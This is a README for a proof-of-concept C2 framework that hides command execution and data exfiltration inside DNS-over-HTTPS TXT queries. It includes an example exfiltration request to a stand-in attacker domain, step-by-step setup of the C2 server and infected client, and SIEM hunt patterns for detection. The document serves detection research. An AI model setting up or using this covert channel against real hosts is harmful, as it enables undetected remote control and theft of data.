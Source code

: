 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging  DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Architecture
![image](https://github.com/user-attachments/assets/e0e0c705-e5a2-4934-b265-f70e39ca668b)  

From the above picture the python program on the client side (PC) sends HTTPS request (TCP/443) to DoH Server e.g dns.google.com, to resolve a destination domain where the c2 is hosted e.g example.com.co    
An attacker can use the part which is between the** name and &** in the url to inject txt record  not bigger than 512 bytes of size.  Example: https[:]//dns.google.com/resolve?name**=SINGLE-1-K5EE6QKNJEFA====.send.example.com.co**&type=TXT  
1. '**SINGLE-1-K5EE6QKNJEFA====**' is base32 encoded query (K5EE6QKNJEFA====  is basically WHOAMI
)  
2.send.example.com.co => the DNS c2 server.  
  
The dns.google.com is instructed to query send.example.com.co DNS server for the TXT record.  
The DNS server send.example.com.co which is controlled back by us, returns back txt record in which there are instructions what the client (PC) needs to perform/execute.


# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.  

Only google DoH is used.  

# Scenario 1 - Using Public DoH Server
![image](https://github.com/user-attachments/assets/d26b3309-d164-4344-8dcb-94c10e7e6291)

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)  
For server side linux.  

**1. Client Side**  
    Install Python >=3.8 from the official website or your package manager.  
     Install the requests library using pip:    
     **pip install requests**
**2. Server side** only Linux  
    Install the dnslib library using pip
    **pip install dnslib**  

**3. Register domain**  
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/26f16ed6-1a45-4b1c-8ddc-cac2287eba24)

Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain and server Public IP
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 3.  

if __name__ == "__main__":
    domain_name = "send.examples.com.co"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  
Example run 
![grafik](https://github.com/user-attachments/assets/ff8f6724-9985-4411-87f0-7435cad4ad7f)


**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP


Example run:
![grafik](https://github.com/user-attachments/assets/dec32aca-60b0-415a-a616-49c14a21906b)

Note instead of the  examples.com.co you should use your domain name  
Run: python3 doh_server.py


# Detection Tips for Scenario 1 - Public DOH

1. In the proxy next generation firewall with Layer7 capability check if category=”DoH and DoT”, category=”DoH Services”, urlcategory=”DoH Services” exist. Based on you risk appetite one can choice to monitor or block it.  
2. Extend your SIEM or proxy/layer7 firewall, with https://github.com/mthcht/awesome-lists/blob/main/Lists/dns_over_https_servers_list.csv list. Important to note if the proxy/layer7 firewall is set to block those URLs one may cause business process interuption as some of them can be used in daily work.  
3. Hunt for the bellow URL paths in the SIEM  
    url="*/resolve?name=*"  
    url="*/resolve?*&name=*"  
    url="*/query?name=*type=TXT*"  
    url="*/dns-query?name=*"    
    url="*/dns-query?*&name=*"   
   you can also search for the http_content_type "application/dns-message", "application/dns-json" in your proxy logs to hunt for DoH communications.

# Scenario 1 - Using PRIVATE DoH Server
